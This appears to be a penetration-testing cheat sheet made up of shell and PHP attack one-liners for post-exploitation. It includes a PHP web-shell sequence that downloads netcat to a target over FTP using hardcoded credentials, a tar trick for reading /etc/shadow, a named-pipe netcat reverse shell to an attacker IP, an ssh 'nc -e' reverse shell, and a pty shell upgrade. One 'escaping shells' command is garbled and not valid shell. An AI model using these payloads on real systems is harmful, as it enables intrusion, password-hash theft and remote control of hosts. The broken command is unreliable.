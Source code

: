 ```sh
#!/bin/sh

ftp -n IP <<END_SCRIPT
quote USER acknak
quote PASS jLQRZy4gyLhmMqz2whTw
binary
GET file.py
quit
END_SCRIPT
exit 0
```

### Can also be done over PHP

```php
<?php echo shell_exec("echo open 192.168.42.102 21>/usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo user acknak jLQRZy4gyLhmMqz2whTw>> /usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo binary>> /usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo get netcat /usr/local/databases/netcat>>/usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo bye>> /usr/local/databases/ftp.txt");?>

<?php echo shell_exec("ftp -n < /usr/local/databases/ftp.txt");?>
```

### Escaping Shells 
```sh
echo FREEDOM! && cd () bash && cd
```

### TAR can read all files, so you can create a tar with a wanted file and than extract it
```sh
tar -cvf shadow.tar "/etc/shadow"
tar -xvf shadow.tar
cat etc/shadow
```

### Netcat without -e

A lot of machines have netcat installed (example macosx) but it's not usable for reverse shells. However, with this it becomes useable.

```sh
mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc <ATTACKER IP> <PORT> 1>/tmp/backpipe
```

### Overcome limited shells 

#### Some payloads to overcome limited shells

```sh
ssh user@$ip nc $localip 4444 -e /bin/sh
python -c 'import pty; pty.spawn("/bin/sh")'
export TERM=linux
```
